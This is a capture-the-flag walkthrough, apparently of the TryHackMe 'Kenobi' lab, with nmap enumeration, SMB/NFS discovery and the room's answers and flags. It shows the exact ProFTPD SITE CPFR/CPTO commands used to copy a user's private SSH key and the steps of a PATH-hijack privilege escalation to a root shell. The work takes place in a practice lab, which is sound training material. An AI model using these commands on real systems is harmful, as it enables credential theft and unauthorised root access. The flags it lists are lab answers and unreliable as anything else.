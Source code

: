 # Kenobi

Initial scan with nmap:

```
# Nmap 7.80 scan initiated Wed Mar 31 16:28:49 2021 as: nmap -sC -sV -vv -oN nmap_standard 10.10.240.32
Nmap scan report for 10.10.240.32
Host is up, received syn-ack (0.036s latency).
Scanned at 2021-03-31 16:28:49 BST for 14s
Not shown: 993 closed ports
Reason: 993 conn-refused
PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack ProFTPD 1.3.5
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8m00IxH/X5gfu6Cryqi5Ti2TKUSpqgmhreJsfLL8uBJrGAKQApxZ0lq2rKplqVMs+xwlGTuHNZBVeURqvOe9MmkMUOh4ZIXZJ9KNaBoJb27fXIvsS6sgPxSUuaeoWxutGwHHCDUbtqHuMAoSE2Nwl8G+VPc2DbbtSXcpu5c14HUzktDmsnfJo/5TFiRuYR0uqH8oDl6Zy3JSnbYe/QY+AfTpr1q7BDV85b6xP97/1WUTCw54CKUTV25Yc5h615EwQOMPwox94+48JVmgE00T4ARC3l6YWibqY6a5E8BU+fksse35fFCwJhJEk6xplDkeauKklmVqeMysMWdiAQtDj
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBpJvoJrIaQeGsbHE9vuz4iUyrUahyfHhN7wq9z3uce9F+Cdeme1O+vIfBkmjQJKWZ3vmezLSebtW3VRxKKH3n8=
|   256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB22m99Wlybun7o/h9e6Ea/9kHMT0Dz2GqSodFqIWDi
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     syn-ack 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      39903/tcp   mountd
|   100005  1,2,3      41553/udp6  mountd
|   100005  1,2,3      43975/tcp6  mountd
|   100005  1,2,3      52726/udp   mountd
|   100021  1,3,4      34139/tcp   nlockmgr
|   100021  1,3,4      37971/tcp6  nlockmgr
|   100021  1,3,4      38231/udp6  nlockmgr
|   100021  1,3,4      56631/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     syn-ack 2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 13508/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26686/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 21503/udp): CLEAN (Failed to receive data)
|   Check 4 (port 35143/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-03-31T10:29:02-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-31T15:29:01
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Mar 31 16:29:03 2021 -- 1 IP address (1 host up) scanned in 14.32 seconds
```

**Questions**

    1. Scan the machine with nmap, how many ports are open?

7

## Enumerating Samba For Shares

In order to do this I used enum4linux, a tool specifically designed for this job. I also used the command suggested in this room which uses nmaps scripting engine `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.240.32`

**Questions**

    1. Using the nmap command above, how many shares have been found?

3

    2. Once you're connected, list the files on the share. What is the file can you see?

`log.txt`

    3. What port is FTP running on?

21

Enumerating the rpcbind on port 111 with nmap `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.240.32`

    4. What mount can we see?

`/var`

## Gain Initial Access With ProFtpd

**Questions**

The version of ProFtpd can be found by connecting to the machine on the FTP port.

    1. What is the version?

1.3.5

Use Searchsploit to search for exploits for this version

    2. How many exploits are there for the ProFTPd running?

3

Kenobis private ssh key that we saw be generated in `log.txt` can be copied off the system by connection to the proftpd server with `nc 10.10.240.32`

`SITE CPFR /home/kenobi/.ssh/id_rsa`

`SITE CPTO /var/tmp/id_rsa`

This location can be mounted to our machine with

`sudo mkdir /mnt/kenobiNFS`

`mount 10.10.240.32:/var /mnt/kenobiNFS`

`ls -la /mnt/kenobiNFS`

The id_rsa can be copied to our machine with `cp /mnt/kenobiNFS/tmp/id_rsa .`

We can now ssh into the system as kenobi with `ssh -i id_rsa kenobi@10.10.240.32`

    3. What is Kenobi's user flag (/home/kenobi/user.txt)?

d0b0f3f53b6caa532a83915e19224899

## Privilege Escalation with Path Variable Manipulation

So the description of this task doesn't entirely follow my methodology. I immediately copied linPEAS over and ran that in order to establish a baseline. This showed a dodgy looking PATH `New path exported: /home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin` along with finding the SUID executable that was originally intended for this exercise.

```sh
-rwsr-xr-x 1 root   root       8.7K Sep  4  2019 /usr/bin/menu
  --- It looks like /usr/bin/menu is executing curl and you can impersonate it (strings line: curl -I localhost) (https://tinyurl.com/suidpath)
  --- It looks like /usr/bin/menu is executing ifconfig and you can impersonate it (strings line: ifconfig) (https://tinyurl.com/suidpath)
  --- It looks like /usr/bin/menu is executing uname and you can impersonate it (strings line: uname -r) (https://tinyurl.com/suidpath)
```

After establishing what this `/usr/bin/menu` file was doing I began exploiting.
First I created a directory called `bin` in Kenobi's home directory. Next, after changing into that directory, I ran the command `echo /bin/bash > curl`. Next I simply used `chmod 777 curl` to ensure that it had enough permissions. Now running `/usr/bin/menu` and selecting option 1, ran my binary instead which spawned a root bash shell.

**Questions**

    1. What file looks particularly out of the ordinary? 

`/usr/bin/menu`

    2. Run the binary, how many options appear?

3

    3. What is the root flag (/root/root.txt)?

177b3cd8562289f37382721c28381f02
